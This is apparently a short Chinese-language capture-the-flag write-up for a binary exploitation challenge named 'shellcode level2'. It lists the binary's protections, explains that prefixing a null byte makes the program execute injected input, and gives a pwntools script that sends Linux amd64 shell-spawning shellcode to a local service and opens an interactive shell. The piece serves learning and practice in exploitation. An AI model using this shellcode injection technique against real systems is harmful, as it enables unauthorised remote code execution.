 ```yaml
---
title: shellcode level2
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`shellcode_level2`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序用gets读入100字节，shellcode随便打  
程序运行一个变量+1对应的地址，且该变量首字节不为0则全部置0  
即先放一个`\0`再放shellcode即可

## EXPLOIT

```python
from pwn import *
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh = remote("localhost", 45341)
sh.sendline(b'\0' + shc)
sh.interactive()
```

Done.

